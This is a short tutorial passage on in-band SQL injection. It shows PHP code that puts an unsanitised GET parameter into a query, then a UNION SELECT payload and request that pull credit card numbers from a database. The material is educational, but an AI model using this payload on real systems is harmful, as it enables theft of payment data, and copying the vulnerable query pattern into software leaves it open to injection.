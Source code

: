 <img src="images/11.png">

<img src="images/12.png">

The following code is used by the web application to show usernames:

```php
<?php
$rs=mysql_query("SELECT real_name FROM users WHERE id=".$_GET['id'].";"); $row=mysql_fetch_assoc($rs);
 echo $row['real_name']; ?>
SQL injection!
```

As you can see, the SQL query's id column clearly contains a SQL injection.

Now that SQLi is vulnerable, we can utilize it to access the credit card linked to a username.

Our payload is:

```sql
9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1
```

The following is how the web application's query changes as a result of the payload:

```sql
SELECT real_name FROM users WHERE id=9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1;
```

The web application will show the first user's cc num on its output since there are no users with the id=9999!

We can now send a `GET request` using the browser or another tool to provide the payload to the web application:

```sql
/vuln_to_inband.php?id=9999 UNION ALL SELECT cc_num FROM
CreditCards WHERE user_id=1
```
